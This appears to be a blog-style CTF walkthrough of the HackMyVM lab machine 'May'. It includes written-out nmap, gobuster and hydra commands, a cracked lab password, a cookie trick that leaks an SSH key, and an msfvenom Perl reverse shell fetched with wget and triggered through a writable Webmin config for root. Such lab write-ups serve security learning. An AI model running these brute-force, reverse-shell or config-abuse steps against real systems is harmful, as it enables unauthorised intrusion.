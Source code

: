 ```yaml
---
title: "May - HackMyVM Walkthrough"
---
```


nmap service scan:
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctf/may]
└─$ nmap -p- -sV 192.168.56.254 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-10 01:33 EST
Nmap scan report for broken (192.168.56.254)
Host is up (0.00050s latency).
Not shown: 65532 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp    open  http    nginx 1.14.2
10000/tcp open  http    MiniServ 1.979 (Webmin httpd)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
{% endhighlight %}

From the index page on the website:
admin: Web is under construction. Use Intranet.
marie: Where are now the keys?
alice: Yes, where are?
admin: :'(

usernames: admin, marie and alice

Let's add may.hmv to the `/etc/hosts` file and enumerate the subdomains with gobuster:
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctf]
└─$ gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -q -u http://may.hmv
Found: portal.may.hmv (Status: 200) [Size: 406]
Found: ssh.may.hmv (Status: 200) [Size: 405]  
{% endhighlight %}

After adding these two subdomains to the hosts file, we're greeted with a login form.
I tested the form for SQLi and it didn't work. 

Brute forcing the login form with hydra:
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctf]
┌──(kali㉿kali)-[~/ctf]
└─$ hydra -L users -P /usr/share/wordlists/rockyou.txt ssh.may.hmv http-post-form '/check.php:user=^USER^&password=^PASS^:incorrect' -vV
--SNIP--
{% endhighlight %}

Let's try changing the domainname:
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctf]
└─$ hydra -l marie -P /usr/share/wordlists/rockyou.txt portal.may.hmv http-post-form '/check.php:user=^USER^&password=^PASS^:incorrect' -vV
--SNIP--
[80][http-post-form] host: portal.may.hmv   login: marie   password: rebelde
--SNIP--
{% endhighlight %}

Alright so we have credentials for the portal, but they are somewhat useless because
the server is using key based authentication only. We need to find those private keys

I consulted a walkthrough that said there was something odd with cookies on the 
portal.may.hmv/check.php page, specifically one called Sweetcookie. Using a cookie 
editor plugin and adding the cookie while visiting the ssh.may.hmv page changes it's
output to an SSH key. 

Logging in over SSH:
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctf/may]
└─$ ssh -i id_rsa marie@may.hmv 
Linux may 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Jul 22 03:34:48 2021
marie@may:~$ 
{% endhighlight %}

Checking what we can write to: 
{% highlight terminal %}
marie@may:/$ find / -writable -type f 2>/dev/null 
/etc/webmin/miniserv.conf
--SNIP--
{% endhighlight %}

Let's see if we can abuse the config file of webmin. 

The file path in the conf we'll abuse with a custom perl payload:
failed_script=/etc/webmin/failed.pl

We'll generate a perl reverse tcp shell with msfvenom:
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctf/may]
└─$ msfvenom -p cmd/unix/reverse_perl LHOST=192.168.56.224 LPORT=6666 -f raw > failed.pl
[-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload
[-] No arch selected, selecting arch: cmd from the payload
No encoder specified, outputting raw payload
Payload size: 233 bytes
{% endhighlight %}

Transfer the payload to the victim machine:
{% highlight terminal %}
marie@may:~$ wget http://192.168.56.224:8000/failed.pl
--2021-11-14 02:15:39--  http://192.168.56.224:8000/failed.pl
Connecting to 192.168.56.224:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 233 [text/x-perl]
Saving to: ‘failed.pl’

failed.pl            100%[======================>]     233  --.-KB/s    in 0s      

2021-11-14 02:15:39 (29.6 MB/s) - ‘failed.pl’ saved [233/233]
{% endhighlight %}

Now we edit the path in the config file:
`failed_script=/home/marie/failed.pl`

All we need to do now is attempt to login to the webmin panel and fail then we get a root shell on the machine. 
I submitted the flags and got the points. Hooray for points.
